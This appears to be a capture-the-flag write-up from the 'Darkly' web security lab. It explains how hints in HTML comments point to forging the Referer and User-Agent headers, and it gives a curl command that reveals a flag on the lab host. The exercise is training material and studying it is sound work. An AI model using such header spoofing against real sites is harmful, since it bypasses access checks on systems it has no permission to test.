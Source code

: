# Domain Spoofing

## Vulnerability

At the very bottom of the page, there is a clickable `© BornToSec` link redirecting to: [`index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`](http://darkly/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f).

Looking at the page code, we can see a few comment like:
```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
[...]    Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

`You must come from` means spoofing the [HTTP Referer Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer).
And `Let's use this browser` means spoofing the [HTTP User Agent Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent).

So by doing the cURL command:
```bash
curl \
    -H 'Referer: https://www.nsa.gov/' \
    -H 'User-Agent: ft_bornToSec' \
    'http://darkly/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f'
```

We can see the flag:
```html
<h2> The flag is : ...</h2>
```

## Possible Fix

- Do not include the comments?
